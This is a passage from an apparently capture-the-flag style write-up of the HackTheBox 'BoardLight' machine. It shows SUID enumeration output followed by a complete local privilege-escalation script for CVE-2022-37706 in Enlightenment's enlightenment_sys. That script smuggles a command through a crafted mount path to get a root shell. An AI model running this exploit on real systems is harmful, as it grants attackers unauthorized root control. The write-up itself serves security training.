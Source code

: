 ```c
larissa@boardlight:~$ find / -perm -4000 2>/dev/null | xargs ls -la
-rwsr-xr-x 1 root root        85064 Feb  6 04:49 /usr/bin/chfn
-rwsr-xr-x 1 root root        53040 Feb  6 04:49 /usr/bin/chsh
-rwsr-xr-x 1 root root        39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root        88464 Feb  6 04:49 /usr/bin/gpasswd
-rwsr-xr-x 1 root root        55528 Apr  9 08:34 /usr/bin/mount
-rwsr-xr-x 1 root root        44784 Feb  6 04:49 /usr/bin/newgrp
-rwsr-xr-x 1 root root        68208 Feb  6 04:49 /usr/bin/passwd
-rwsr-xr-x 1 root root        67816 Apr  9 08:34 /usr/bin/su
-rwsr-xr-x 1 root root       166056 Apr  4  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root        39144 Apr  9 08:34 /usr/bin/umount
-rwsr-xr-x 1 root root        14728 Oct 27  2023 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-- 1 root messagebus  51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root       477672 Jan  2 09:13 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
-rwsr-xr-x 1 root root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
-rwsr-xr-x 1 root root        14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
-rwsr-xr-x 1 root root        26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
-rwsr-sr-x 1 root root        14488 Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-- 1 root dip        395144 Jul 23  2020 /usr/sbin/pppd
```

## Privilege Escalation to root

A quick search on google showed a `Local Privilege Escalation (LPE)` exploit known as `CVE-2022-37706` which used exactly the binary `enlightenment_sys`.

- [https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit)

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/BoardLight/serve]
└─$ cat exploit.sh            
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
        echo "[-] Couldn't find the vulnerable SUID file..."
        echo "[*] Enlightenment should be installed on your system."
        exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Enjoy the root shell :)"
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```
